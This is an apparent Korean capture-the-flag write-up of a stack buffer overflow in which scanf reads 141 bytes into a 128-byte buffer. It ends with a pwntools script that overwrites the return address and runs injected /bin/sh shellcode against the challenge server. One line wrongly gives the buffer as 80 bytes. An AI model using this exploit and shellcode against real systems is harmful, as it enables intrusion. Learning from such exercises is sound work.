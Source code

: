 buf의 크기는 0x80로 **128byte**이지만, `scanf("%141s", buf);`로 총 **141byte**를 입력받기에 버퍼 오버플로우(BOF)가 발생할 수 있다.

해당 함수에서는 `system()` 관련된 `get_shell()` 함수가 없기에 ShellCode를 대입하는 것으로 문제 풀이가 가능하다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188444248-fa2cb3a4-581c-4699-acdc-a640f7ddc7f6.jpg" width = 500>
</p>

* `ESP`에서 0xffffff80만큼 **add** 즉, [ebp-0x80]에 esp가 위치하게 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188444849-0b0fc13a-4059-43b2-a125-0dea984dbbf6.jpg" width = 380>
</p>

* [ebp-0x80]를 통해 `scanf`를 진행하므로 결국 Buf는 80byte를 차지하며 141byte까지 입력이 가능하다. 이로써 BOF 풀이가 가능하다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188443576-ee7b1699-d19a-42b9-bfc1-abd8276af175.jpg" width = 380>
</p>

<p align="center"><b>[그림] Stack Memory</b></p>

다운로드 파일을 실행해보면 Buf의 주소가 나오는데 아래처럼 계속 바뀌는 것을 알 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188448315-495dfacc-f2e6-4c30-992f-2e394583a5e2.jpg" width = 380>
</p>

그렇다면, 출력해주는 buf의 주소를 RET에 넣는다면 Buf에 넣은 ShellCode가 실행 될 것이다.

```python
from pwn import *

p = remote('host3.dreamhack.games', YOUR PORT) 
context(arch = 'i386', os='linux')

payload = b''
p.recvuntil('buf = (')
buf = int(p.recv(10), 16) # buf 값
p.recvuntil('\n')
#shellcode = asm(shellcraft.i386.linux.sh())
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x05\x04\x06\xcd\x80"
sfp = b'S' * 4

payload += shellcode.ljust(128, b'\x90')
payload += sfp
payload += p32(buf)

p.sendline(payload)
p.interactive()
```
